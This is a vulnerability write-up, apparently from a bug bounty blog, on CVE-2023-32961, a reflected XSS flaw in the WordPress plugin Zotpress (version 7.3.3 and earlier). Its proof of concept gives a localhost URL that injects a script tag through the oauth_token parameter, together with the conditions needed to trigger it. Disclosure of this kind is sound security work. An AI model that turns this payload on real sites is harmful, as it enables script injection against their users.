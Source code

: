 ```yaml
---
layout: post
date: 2023-05-16
title: CVE-2023-32961 Analysis
tags: [webhacking, ]
categories: [bugbounty, WordPress, ]
---
```


## Component details


---


### Component name


Zotpress


### Vulnerable version


≤ 7.3.3


### Component slug


zotpress


### Component link


[https://wordpress.org/plugins/zotpress/](https://wordpress.org/plugins/zotpress/)


## Pre-requisite


---


Unauthenticated


## Vulenerability details


---


### Short description


`get_request_token` function in `zotpress/lib/admin/admin.accounts.oauth.php` is vulnerable to a XSS attack.


### How to reproduce (PoC)

1. Install the oauth php extension to trigger the vulnerability. (This is Zotpress's optional)
2. Login to [zotero.org](http://zotero.org/)
3. Conditions must be met for the `get_request_token` function to execute. (first time only)
Send a payload like this: `http://localhost:8080/wp-content/plugins/zotpress/lib/admin/admin.accounts.oauth.php?return_uri=http://localhost:8080&oauth_token=1`
4. Send a below payload
`http://localhost:8080/wp-content/plugins/zotpress/lib/admin/admin.accounts.oauth.php?return_uri=http://localhost:8080&oauth_token="><script>alert(1)</script>`

### Additional information

- You need a [zotero.org](http://zotero.org/) account.
- You need to set the oauthState value to 1 to trigger it. If the above payload doesn't work, you need to find a way to set oauthState to 1.
	- conditional expression :

		```php
		$_GET['oauth_token'] != $state['request_token_info']['oauth_token']
		```

- Easy to install php oauth extension:
	- One Line Command :

		```shell
		sudo su; apt-get update; apt-get -y install gcc make autoconf libc-dev pkg-config libpcre3-dev; pecl install oauth; bash -c "echo extension=oauth.so > $PHP_INI_DIR/conf.d/oauth.ini"; service apache2 restart
		```

- Tested in wordpress:latest Docker image.

### PoC Video


{% include embed/youtube.html id='5kZ7bNbs_-Q' %}


## References


---


[CVE-2023-32961](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-32961)

